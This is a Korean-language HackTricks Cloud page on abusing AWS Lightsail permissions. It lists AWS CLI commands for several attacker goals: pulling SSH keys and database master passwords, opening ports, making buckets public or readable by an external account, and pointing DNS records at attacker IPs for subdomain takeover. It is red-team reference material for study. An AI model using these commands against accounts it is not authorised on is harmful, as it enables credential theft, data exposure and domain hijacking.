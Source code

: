 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Lightsail에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsail은 **사용자에게 속한 IAM 역할을 사용하지 않고** AWS 관리 계정에 속하므로, 이 서비스를 악용하여 권한 상승을 할 수 없습니다. 그러나 **코드, API 키 및 데이터베이스 정보**와 같은 민감한 데이터는 이 서비스에서 발견될 수 있습니다.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

이 권한은 인스턴스에 접근하기 위한 SSH 키를 가져올 수 있게 해줍니다:
```
aws lightsail download-default-key-pair
```
**잠재적 영향:** 인스턴스 내에서 민감한 정보를 찾습니다.

### `lightsail:GetInstanceAccessDetails`

이 권한은 인스턴스에 접근하기 위한 SSH 키를 생성할 수 있게 해줍니다:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**잠재적 영향:** 인스턴스 내에서 민감한 정보를 찾습니다.

### `lightsail:CreateBucketAccessKey`

이 권한은 버킷에 접근할 수 있는 키를 얻을 수 있게 해줍니다:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**잠재적 영향:** 버킷 내에서 민감한 정보를 찾습니다.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

이 권한은 데이터베이스에 접근하기 위한 자격 증명을 얻을 수 있게 해줍니다:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### `lightsail:UpdateRelationalDatabase`

이 권한은 데이터베이스에 접근하기 위한 비밀번호를 변경할 수 있게 해줍니다:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

데이터베이스가 공개되지 않은 경우, 다음 권한으로 공개할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### `lightsail:OpenInstancePublicPorts`

이 권한은 인터넷에 포트를 열 수 있도록 허용합니다.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근.

### `lightsail:PutInstancePublicPorts`

이 권한은 인터넷에 포트를 열 수 있게 해줍니다. 이 호출은 지정되지 않은 모든 열린 포트를 닫습니다.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근.

### `lightsail:SetResourceAccessForBucket`

이 권한은 인스턴스가 추가 자격 증명 없이 버킷에 접근할 수 있도록 허용합니다.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**잠재적 영향:** 민감한 정보가 포함된 버킷에 대한 새로운 접근 가능성.

### `lightsail:UpdateBucket`

이 권한을 통해 공격자는 자신의 AWS 계정에 버킷에 대한 읽기 접근을 부여하거나 심지어 버킷을 모든 사람에게 공개할 수 있습니다:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**잠재적 영향:** 민감한 정보가 포함된 버킷에 대한 새로운 접근 가능성.

### `lightsail:UpdateContainerService`

이 권한을 통해 공격자는 컨테이너 서비스에서 개인 ECR에 대한 접근을 부여할 수 있습니다.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**잠재적 영향:** 비공개 ECR에서 민감한 정보 얻기

### `lightsail:CreateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 자신의 IP 주소로 포인팅할 수 있으며(서브도메인 탈취), 도메인에서 이메일을 스푸핑할 수 있도록 SPF 레코드를 작성하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

### `lightsail:UpdateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 자신의 IP 주소로 포인팅할 수 있으며(서브도메인 탈취), 도메인에서 이메일을 스푸핑할 수 있도록 하는 SPF 레코드를 작성하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
